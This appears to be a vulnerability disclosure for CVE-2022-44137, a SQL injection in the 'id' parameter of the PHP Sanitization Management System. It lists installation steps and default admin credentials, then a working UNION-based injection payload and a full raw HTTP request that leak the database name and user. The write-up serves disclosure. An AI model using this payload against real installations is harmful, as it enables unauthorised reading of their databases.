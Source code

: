 # Sanitization Management System v1.0 has SQLI in /php-sms/admin/?page=inquiries/view_inquiry
CVE-2022-44137
Author: y1s3m0

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

## How to Run?

### Requirements

-   Download and Install any local web server such as XAMPP.
-   Download the provided source code zip file. (download button is located below)

### System Installation/Setup

-   Enable the GD Library in your php.ini file.
-   Open your XAMPP Control Panel and start Apache and MySQL.
-   Extract the downloaded source code zip file.
-   Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
-   Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
-   Create a new database named sms_db.
-   Import the provided SQL file. The file is known as sms_db.sql located inside the database folder.
-   Browse the Sanitization Management System in a browser. i.e. http://localhost/php-sms/.

### Admin Default Access:

-   Username: admin
-   Password: admin123

## Payload

database:sms_db
database_user:root@localhost

[+] Payload: /php-sms/?p=admin/inquiries/view_inquiry&id=99999999999999999' union select 1,2,database(),user(),5,6,7,8,9 --+ // Leak place ---> id

```sql
GET /php-sms/?p=admin/inquiries/view_inquiry&id=99999999999999999%27%20union%20select%201,2,database(),user(),5,6,7,8,9%20--+ HTTP/1.1
Host: phpcms:8081
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9,ja;q=0.8,vi;q=0.7
Cache-Control: no-cache
Cookie: PHPSESSID=ejfc8c9qlifbn82hovfq5nq74n
DNT: 1
Pragma: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
```

![](images/view_inquiry_sqli.png)
